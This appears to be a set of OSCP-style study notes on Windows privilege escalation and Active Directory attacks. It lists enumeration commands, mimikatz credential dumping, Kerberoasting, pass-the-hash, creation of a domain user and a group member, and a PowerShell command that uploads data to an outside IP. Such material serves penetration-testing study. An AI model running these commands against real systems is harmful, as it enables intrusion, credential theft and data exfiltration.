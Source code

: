 # Windows PrivEsc 

**Step 1** 

Review PrivEsc Mind map

https://github.com/hxhBrofessor/PrivEsc-MindMap/blob/main/windows-mindMap.JPG 

**Step 2** 

Look around the file system!!! 

Check installed programs in `C:\Program Files` or `C:\Program Files (x86)`

**Step 3** 

Determine architecure
`systeminfo` 
or 
`$Env:PROCESSOR_ARCHITECTURE` 

*AMD64 for 64-bit and x86 for 32-bit*

**Step 4**
Run [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

**Step 5**
Run [adPEAS](https://github.com/61106960/adPEAS)

**Step 6**
Begin manual review if still no leads 

## Active Directory Methodology 
https://s0cm0nkey.gitbook.io/s0cm0nkeys-security-reference-guide/red-offensive/testing-methodology/active-directory

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md

### Mind set notes for OSCP
What users are on the domain? net users /domain
What groups are configured on the domain? net group /domain
Who are the administrators (domain admins?) net group "Domain Admins"
What SPNs are configured on the host? GetSPNs.py 

Kerberoasting - List out the SPNs on the domain and if there are any that are specifically calling to another host/port within the domain, could be kerberoastable.

Kerberoasting - List out the SPNs on the domain and if there are any that are specifically calling to another host/port within the domain, could be kerberoastable.

Credentials in Memory - run mimikatz and see if any of the accounts you enumerated at first show up. Try cracking the NTLM hash, or passing the hash through something like psexec.py or evil-winrm.

## Basics 

[Manual Enum Guide](https://fuzzysecurity.com/tutorials/16.html)

[Password Attacks](https://medium.com/@kuwaitison/local-password-attack-and-credentials-theft-for-windows-linux-5764a1a25363)

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

`whoami /all` 

`whoami /groups` 

`whoami /priv` 

`net users` 

`net localgroup`

`netstat -ano` 

`dsacls "DC=htb,DC=local"` 

## Scheduled Tasks 

### generate file 
`schtasks /query /fo LIST /v > scheduled-task.txt`

### transfer off Windows
`powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.49.192/upload.php', 'scheduled-task.txt')` 

### Grep results on Kali
`grep -i "SYSTEM" scheduled-task.txt -B 5 -A 5` 

## Services 

`wmic service list brief` 

`tasklist /v /fi "username eq system` 

`sc query state= all | findstr "SERVICE_NAME:" >> Services.txt` 

`wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """` 

## AlwaysInstallElevated 
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated` 

## AD Commands to run

`ldapsearch -H ldap://<ip>:<port> -x -LLL -s sub -b "DC=<domain>,DC=local"` 

(Pass the Hash)[https://cesidt.medium.com/pass-the-hash-techniques-92e46f28af89]

### Users
`net user`
`net user hacker password /add /domain` 

### Groups 
`net group "group name"`

`net group "Exchange Windows Permissions" /add account_name` 

## Passwords
### powershell recursive grep like search
`ls -R -Hidden -EA SilentlyContinue | select-string <search string>`

### Get password hashes from mimi. 
`lsadump:​:lsa /patch`

## Metasploit module for exploit suggestions
`post/multi/recon/local_exploit_suggester` 

## Tools to run
(WinPeas)[https://github.com/carlospolop/PEASS-ng/releases/tag/20230101]

(Watson for kernel exploit suggestions)[https://github.com/rasta-mouse/Watson, https://0xdf.gitlab.io/2019/03/05/htb-devel.html]

(Bloodhound)[https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux]

(Powerview)[https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/#ad-enumeration-with-powerview]

(Windows exploit suggester)[https://github.com/AonCyberLabs/Windows-Exploit-Suggester]

(Sherlock)[https://github.com/rasta-mouse/Sherlock](How to use Sherlock)[https://0xdf.gitlab.io/2021/03/17/htb-optimum.html]

(JAWS)[https://github.com/411Hall/JAWS]
